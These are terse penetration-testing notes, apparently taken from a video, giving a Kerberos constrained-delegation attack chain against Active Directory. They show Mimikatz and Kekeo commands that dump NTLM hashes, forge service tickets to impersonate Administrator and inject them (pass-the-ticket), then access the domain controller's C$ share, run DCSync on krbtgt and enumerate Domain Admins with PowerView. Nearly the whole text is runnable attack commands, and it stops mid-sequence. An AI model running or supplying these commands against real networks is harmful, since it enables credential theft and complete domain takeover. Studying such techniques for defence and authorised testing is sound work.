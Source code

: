 ```
.\kekeo.exe
```

```
. .\Invoke-Mimikatz.ps1
```

```
invoke-mimikatz
```


Find ntlm hash and copy value.  In video, he finds a user with a '$' at the end.

```
kekeo.exe tgt::ask /user:$USER /domain:DNS_DOMAIN_NAME /rc4:$HASH
```

$TICKET  == TGT Ticket kirbi file is found in kekeo directory. 
```
tgs::s4u /tgt:$TICKET /user:Administrator@DNS_DOMAIN_NAME /service:time/DNS_COMPUTER_NAME|ldap/DNS_COMPUTER_NAME
```

A new TGS Ticket kirbi file will appear in kekeo directory.
```
exit
```

Inject TGS with Mimikatz:

>May have to put mimikatz.ps1 and PowerView.ps1 file in this directory!
```
. .\invoke-mimikatz.ps1
```

```
Invoke-Mimikatz - Command '"kerberos::ptt $TGS_FILE"'
```

```
dir \\dc\C$
```

```
klist
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\krbtgt"'
```

```
. .\PowerView.ps1
```

```
Get-DomainGroupMember -SamAccountName 'Domain Admins'
```

$TARGET_USER Find a target from the list.
```
. .\invoke-mimikatz.ps1
```
